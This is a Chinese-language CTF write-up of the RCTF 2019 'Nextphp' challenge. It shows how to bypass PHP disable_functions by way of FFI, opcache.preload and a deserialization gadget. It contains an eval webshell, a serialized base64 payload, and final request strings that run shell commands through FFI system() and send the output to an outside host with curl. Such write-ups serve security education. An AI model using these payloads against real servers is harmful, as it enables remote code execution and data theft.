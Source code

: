 # \[RCTF 2019]Nextphp

## \[RCTF 2019]Nextphp

## 考点

* PHP FFI
* PHP opcache
* bypass disable\_functions

## wp

给了个shell的源码

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

`?a=phpinfo();`看到phpinfo中设置了disable\_functions

![](<../../.gitbook/assets/image (8) (1) (1) (1).png>)

`?a=var_dump(scandir('/'));`提示没有权限，`?a=var_dump(scandir('.'));`看到两个文件，index.php和preload.php。再读取preload.php

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

实际上还是要仔细观察phpinfo，可以看到设置了opcache.preload，启用了FFI，禁用了反射类

```
opcache.preload：/var/www/html/preload.php
open_basedir：/var/www/html
disable_classes：ReflectionClass
disable_functions:
```

![](<../../.gitbook/assets/image (16).png>)

![](<../../.gitbook/assets/image (5) (1) (1).png>)

[opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) 是 **PHP7.4** 中新加入的功能。如果设置了 [opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) ，那么在所有Web应用程序运行之前，服务会先将设定的 **preload** 文件加载进内存中，使这些 **preload** 文件中的内容对之后的请求均可用。更多细节可以阅读：[https://wiki.php.net/rfc/preload](https://wiki.php.net/rfc/preload) ，在这篇文档尾巴可以看到如下描述：

> In conjunction with ext/FFI (dangerous extension), we may allow FFI functionality only in preloaded PHP files, but not in regular ones

大概意思就是说允许在 **preload** 文件中使用 **FFI** 拓展，但是文档中说了 **FFI** 是一个危险的拓展，而这道题目却开启了 **FFI** 拓展。我们可以参考文档：[https://wiki.php.net/rfc/ffi](https://wiki.php.net/rfc/ffi) 中的例子：

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
    "int printf(const char *format, ...);", // this is regular C declaration
    "libc.so.6");
// call C printf()
$ffi->printf("Hello %s!\n", "world");
```

如果不设置 **FFI::cdef** 的第二个参数，也可以调用 **C** 函数。那么命令执行函数格式如下

```php
<?php
$ffi = FFI::cdef("int system(const char * command);");
$ffi->system("whoami");
```

preload.php中定义了A类，实现了Serializable接口，`__unserialize()`函数会在反序列化时被调用。这一特性是在PHP7.4中新加入的，具体可参考：[https://wiki.php.net/rfc/custom\_object\_serialization](https://wiki.php.net/rfc/custom\_object\_serialization)

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];
    public function serialize (): string {
        return serialize($this->data);
    }
    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
    public function __get ($key) {
        return $this->data[$key];
    }
    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

}
echo base64_encode(serialize(new A()));
// QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319I7fX0
```

传入`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319")));`

![](<../../.gitbook/assets/image (34) (1) (1).png>)

触发`A::run()`从而把FFI对象返回给`A->data['ret']`，再用`A::__get()`函数就可以获取FFI对象了

`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret'));`

![](<../../.gitbook/assets/image (2) (1).png>)

最后payload

```
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `ls /` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `cat /flag` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
```

![](<../../.gitbook/assets/image (35) (1).png>)

## 小结

1. [RCTF2019Web题解之nextphp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)
